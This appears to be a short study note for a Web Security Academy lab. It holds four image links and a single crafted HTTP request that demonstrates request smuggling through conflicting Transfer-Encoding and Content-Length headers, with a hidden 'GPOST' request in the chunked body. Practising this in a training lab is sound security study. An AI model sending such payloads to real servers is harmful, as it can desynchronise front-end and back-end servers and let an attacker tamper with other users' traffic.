




## LAB





```c
POST / HTTP/1.1
Host: 0a0b00b70434f8d180e6adb200d20047.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

39
GPOST /404 HTTP/1.1
Host: X
Content-Length: 6

X=test
0

```



